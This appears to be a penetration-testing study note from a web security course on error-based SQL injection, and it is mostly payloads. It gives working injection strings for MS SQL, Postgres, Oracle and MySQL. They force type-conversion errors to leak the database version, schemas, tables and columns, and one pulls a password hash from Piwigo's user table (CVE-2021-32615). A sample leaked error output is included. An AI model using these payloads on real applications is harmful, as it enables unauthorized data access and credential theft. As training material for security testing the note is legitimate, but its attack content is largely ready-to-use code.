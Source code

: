 ```yaml
---
tags:
- sqlInjection
---
```

# SQL Injection Error based payloads
If an application shows detail information in error message we can find something interesting uses it. 

Force erroneous data type conversions. We can use cast() function, example
MS SQL
```sql
cast(@@version as integer)
```
Postgres
```sql
cast(version() as integer)
```
Oracle
```sql
to_char(dbms_xmlgen.getxml('select "'|| (select substr(banner,0,30) from v$version where rownum=1)||'" from sys.dual'))
```
Mysql
```mysql
extractvalue('',concat('>',version()));
```
List of sql injection see here [[202305051825099 SQL Injection Error based payloads#^f19401]] [[202305051825099 SQL Injection Error based payloads#^da2ed6]]

## Getting version from error message 
```sql
 asc,+extractvalue('',concat('>',version()))
```

## Getting schemas from error messages
```sql
 asc, extractvalue('',concat('>',(
    select group_concat(table_schema) 
    from (
          select table_schema 
      from information_schema.tables 
      group by table_schema) 
    as foo)
    )
  )
```

## Getting password part from error messages
```sql
asc, extractvalue('',concat('>',(select substring(password,1,32) from piwigo_users limit 1 offset 0)))
```


## Example with MSSQL getting information from error
Databases:
```sql
(select STRING_AGG(CONCAT(name, ':', [name]), ', ') from sys.Databases)
```
Example of result:
```
{"error": "('22018', \"[22018] [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Conversion failed when converting the nvarchar value 'master:master, tempdb:tempdb, model:model, msdb:msdb, app:app, exercise:exercise, sqlmap:sqlmap' to data type bit. (245) (SQLExecDirectW)\")"}
```
Tables:

```sql
(SELECT STRING_AGG(CONCAT(TABLE_NAME, ':', [TABLE_NAME]), ', ')
FROM exercise.information_schema.tables 
GROUP BY TABLE_CATALOG)
```

Columns:
```sql
select STRING_AGG(CONCAT(COLUMN_NAME, ':', [COLUMN_NAME]), ', ') from exercise.information_schema.columns where TABLE_NAME = 'secrets';
```
Values:
```sql
(select STRING_AGG(CONCAT(flag, ':', [id]), ', ') from exercise.dbo.secrets)
```
See more payloads  [[202305051825099 SQL Injection Error based payloads#^da2ed6]]
## References

1. web200.SQL Injection.Exploiting SQL Injection. Error-based Payloads
2. (Swissky, et al, 2021) [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/PostgreSQL Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) ^f19401
3. (NetSPI, 2019), [https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysq](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql) ^da2ed6
4. (The MITRE Corporation, 2021), [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-32615](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-32615) [↩︎](https://portal.offsec.com/courses/web-200/books-and-videos/modal/modules/sql-injection/case-study-error-based-sqli-in-piwigo/case-study-error-based-sqli-in-piwigo#fnref2) ^dd17cd
5. web200.SQL Injection.Case Study: Error-based SQLi in Piwigo

